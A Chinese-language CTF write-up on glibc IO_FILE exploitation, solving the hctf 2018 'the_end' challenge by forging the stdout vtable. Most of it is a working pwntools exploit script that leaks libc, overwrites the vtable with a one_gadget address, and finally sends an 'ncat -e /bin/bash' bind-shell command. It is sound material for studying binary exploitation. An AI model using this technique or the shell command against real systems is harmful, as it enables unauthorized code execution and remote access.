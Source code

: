 ```yaml
---
title: 浅析IO_FILE利用
categories:
  - linux_pwn
tags:
  - Null
---
```




# 0x1 漏洞原理

暂无





# 0x2 漏洞利用



## 0x1 hctf 2018 - the_end && fake vtable

日常 `checsec` 一下：

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

看到这里心里咯噔一下，难道是个栈溢出？



### 程序分析

事实证明我想多了，流程图如下：

![the_end_flow_chart](/image/2019-04-07-linux_pwn_io_file/the_end_flow_chart.jpg)

这里条件限制的很死啊，最多可以给一个地址写五个字节，改返回地址已经不怎么现实了，找找 `exit` 函数有什么可以利用的吧。

![exit_process](/image/2019-04-07-linux_pwn_io_file/exit_process.jpg)

### 程序利用

看到这里，怎么利用，基本就呼吁而出了，我们可以通过更改 `stderr` 或者 `stdout` 的 `vtable` 表使其指向我们可控的地址，然后在新 `vtable` 更改所对应的函数位置即可。



`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def changed_content(exp_file, change_addr, change_value):
    print(hex(ord(change_value)))
    exp_file.send(p64(change_addr)+change_value)


def main():
    debug = 0
    if debug:
        exp_file = process("/home/who/Desktop/the_end")
    else:
        exp_file = remote("127.0.0.1", 9999)
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    one_gadget_offset = 0xf02b0
    
    # Get base address of libc
    sleep_addr = int(exp_file.recvuntil(";)", drop=True).split("here is a gift ")[1][:14], 16)
    libc_addr = sleep_addr - libc_file.symbols['sleep']
    one_gadget_addr = libc_addr + one_gadget_offset
    stdout_addr = libc_addr + libc_file.symbols['_IO_2_1_stdout_']
    stout_old_vtable = stdout_addr + 0xd8
    stderr_addr = libc_addr + libc_file.symbols['__malloc_hook']
    stdout_new_vatble = stderr_addr - 0x68
    log.info("sleep_addr:{addr}".format(addr=hex(sleep_addr)))
    log.info("libc_addr:{addr}".format(addr=hex(libc_addr)))
    log.info("stdout_addr :{addr}".format(addr=hex(stdout_addr)))
    log.info("stout_old_vtable :{addr}".format(addr=hex(stout_old_vtable)))
    log.info("one_gadget_addr:{addr}".format(addr=hex(one_gadget_addr)))
    log.info("stdout_new_vatble:{addr}".format(addr=hex(stdout_new_vatble)))

    # Change stdout_vtable to __malloc_hook - 0x68
    changed_content(exp_file, stout_old_vtable, chr(int(hex(stdout_new_vatble)[12:], 16)))
    changed_content(exp_file, stout_old_vtable+1, chr(int(hex(stdout_new_vatble)[10:12], 16)))
    
    # Change vtable->setvbuf to onegadget
    changed_content(exp_file, stdout_new_vatble+0x58, chr(int(hex(one_gadget_addr)[12:], 16)))
    changed_content(exp_file, stdout_new_vatble+0x59, chr(int(hex(one_gadget_addr)[10:12], 16)))
    changed_content(exp_file, stdout_new_vatble+0x5a, chr(int(hex(one_gadget_addr)[8:10], 16)))

    # Now, we get shell!
    exp_file.sendline("ncat -e /bin/bash -klp 5555")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```

